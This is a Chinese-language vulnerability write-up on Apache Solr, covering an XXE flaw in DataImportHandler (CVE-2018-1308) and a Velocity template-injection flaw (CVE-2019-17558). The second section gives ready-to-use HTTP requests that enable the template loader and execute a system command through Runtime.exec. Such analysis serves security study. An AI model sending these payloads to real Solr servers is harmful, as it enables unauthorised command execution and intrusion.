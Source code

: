 ## CVE-2018-1308
同样是XXE漏洞，问题出在`DataImportHandler`处理请求时，会加载配置文件。`DataImportHandler.handleRequestBody() -> DataImporter.maybeReloadConfiguration() -> DataImporter.loadDataConfig()`，代码如下也没有禁用外部实体。
```
public DIHConfiguration loadDataConfig(InputSource configFile) {
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
    if (this.core != null && configFile.getSystemId() != null) {
        dbf.setXIncludeAware(true);
        dbf.setNamespaceAware(true);
    }
    DocumentBuilder builder = dbf.newDocumentBuilder();
    if (this.core != null) {
        builder.setEntityResolver(new SystemIdResolver(this.core.getResourceLoader()));
    }
    builder.setErrorHandler(XMLLOG);
    Document document=builder.parse(configFile);
    dihcfg = this.readFromXml(document);
}
```


## CVE-2019-17558
查看某一核心的solrconfig.xml配置文件，有如下配置。QueryResponseWriter是Solr插件，可以定义任何请求的响应格式。
```
<queryResponseWriter name="velocity" class="solr.VelocityResponseWriter" startup="lazy">
    <str name="template.base.dir">${velocity.template.base.dir:}</str>
</queryResponseWriter>
```
2Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
通过请求开启`params.resource.loader.enabled`（此配置默认为false，即默认不允许加载器指定模板），否则模版执行会报错`unable to find resource 'custom.vm'`
```
POST /solr/db/config HTTP/1.1
Content-Type: application/json

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
SSTI命令执行+回显payload
```
GET /solr/db/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```
